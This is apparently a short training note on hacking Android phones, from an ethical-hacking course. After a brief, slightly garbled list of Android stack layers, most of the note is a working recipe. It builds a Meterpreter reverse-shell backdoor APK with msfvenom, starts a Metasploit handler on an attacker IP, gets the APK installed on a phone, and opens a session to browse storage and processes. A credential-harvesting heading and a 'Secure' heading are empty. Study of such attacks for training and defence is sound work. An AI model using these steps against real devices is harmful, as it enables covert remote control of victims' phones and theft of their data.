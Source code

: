# 17. Hacking Mobile Platforms

Android has a stack of software components categorized into six sections:
- System Apps, 
- Java AP Framework, 
- Native C/C++ Libraries, 
- Android Runtime, 
- Hardware Abstraction Layer (HAL) 
- Linux kernel and five layers


## Hack

### Create Binary Payloads
  1. ``` service postgresql start ```
  2. ``` msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=[Attacker IP] R > Desktop/Backdoor.apk ```
  3. ``` msfconsole ```\
     ``` use exploit/multi/handler ```\
     ``` set payload android/meterpreter/reverse_tcp ```\
     ``` set LHOST 10.10.10.13 ```\
     ``` exploit -j -z ```
  4. On android, install Backdoor.apk
  5. See "Meterpreter session 1 opened"
  6. ``` sessions -i 1 ```
  7. ``` sysinfo ```
  8. ``` cd /sdcard ``` pwd, shows "/storage/emulated/0"
  9. ``` ps ``` view the processes running in the system.

### Harvest users’ credentials using the Social-Engineer Toolkit
  
  
  


## Secure
